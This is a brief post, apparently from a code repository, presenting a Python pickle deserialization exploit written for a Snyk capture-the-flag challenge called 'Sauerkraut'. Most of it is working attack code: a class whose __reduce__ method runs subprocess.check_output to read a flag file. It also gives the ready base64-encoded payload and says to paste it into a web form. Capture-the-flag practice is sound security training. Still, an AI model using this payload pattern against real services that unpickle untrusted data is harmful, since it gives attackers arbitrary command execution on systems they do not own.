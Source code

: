 # Python pickle exploit

Snyk CTF 'Sauerkraut' payload based on exploitation of Python pickles.

```python
import base64
import codecs
import pickle
class RCE(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (['cat','flag'], ) )

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
You need to copy base64 output:
`gASVNAAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMA2NhdJSMBGZsYWeUZYWUUpQu`
and paste it into web form.
